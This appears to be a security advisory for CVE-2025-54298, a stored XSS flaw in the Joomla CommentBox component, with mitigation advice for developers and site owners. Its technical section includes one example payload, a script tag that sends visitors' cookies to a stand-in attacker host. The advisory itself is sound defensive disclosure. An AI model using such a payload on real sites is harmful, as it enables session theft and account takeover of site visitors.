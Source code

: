 A newly identified critical vulnerability in the **CommentBox component** for Joomla poses a significant risk to websites using this functionality. This flaw, classified as a **Stored Cross-Site Scripting (XSS)** vulnerability, could allow attackers to compromise your website, steal sensitive user data, or severely damage your brand reputation. Understanding and addressing this issue promptly is crucial to maintaining the security and integrity of your online presence.

### Vulnerability Details

*   **CVE ID:** **CVE-2025-54298**
*   **Affected Software:** **CommentBox component** for Joomla.
*   **Affected Versions:** Versions **1.0.0 through 1.1.0** are vulnerable.
*   **Technical Cause:** This is a **Stored Cross-Site Scripting (XSS)** vulnerability. It occurs when the CommentBox component fails to properly validate or sanitize user-supplied input (like a comment) before storing it in the database and then displaying it to other users. An attacker can inject malicious code (typically JavaScript) into a comment field. This code is then permanently saved on the server. When other users (including administrators) view the page containing the malicious comment, their browsers execute the attacker's script.
*   **Example Payload Mechanism:** An attacker could submit a comment containing code similar to:
    ```html
    <script>window.location='http://attacker.com/steal?cookie='+document.cookie</script>
    ```
    This script would then be stored and executed whenever a legitimate user views the comment, potentially redirecting them to a malicious site or stealing their session cookies.

### Risk Description

With a **CVSS Base Score of 9.4 (Critical)**, the severity of **CVE-2025-54298** is extremely high. Successful exploitation of this vulnerability could allow an attacker to:

*   **Steal sensitive information:** Such as user session cookies, potentially leading to account takeover.
*   **Deface the website:** Alter the appearance or content of pages viewed by other users.
*   **Redirect users:** Force visitors to malicious websites.
*   **Perform actions on behalf of victims:** Execute arbitrary actions within the user's browser context, including administrative actions if an administrator views the malicious content.
*   **Spread malware:** Inject code that downloads and installs malicious software on visitor's computers.

The widespread impact on site visitors and the potential for complete site compromise make this a critical threat.

### Who is at Risk

Any website running on the **Joomla** content management system that uses the **CommentBox component** in versions **1.0.0 through 1.1.0** is directly at risk. This includes corporate websites, e-commerce platforms, blogs, and community forums that leverage this specific commenting functionality.

### Recommendations

**For Developers:**

*   Implement rigorous **input validation** for all user-supplied data, ensuring that only expected and safe characters are allowed.
*   Apply robust **output encoding** for all data retrieved from the database before displaying it on a web page. This converts potentially malicious characters into safe representations.
*   Conduct comprehensive security testing, including dynamic application security testing (DAST) and static application security testing (SAST), to identify and remediate similar vulnerabilities.

**For Website Owners/Administrators:**

*   **Immediate Update:** Check if an updated version of the **CommentBox component** is available for your Joomla installation. If a patch addressing **CVE-2025-54298** has been released, update to the latest secure version **immediately**.
*   **Temporary Mitigation (if no patch):** If an update is not yet available, consider temporarily disabling the **CommentBox component** until a patch can be applied. Alternatively, implement a Web Application Firewall (WAF) to filter malicious input.
*   **Monitor Logs:** Regularly review your web server and Joomla application logs for any suspicious activity or signs of compromise.

### Reference Link

For more detailed technical information and ongoing updates, please refer to:
[https://firecoders.com/](https://firecoders.com/)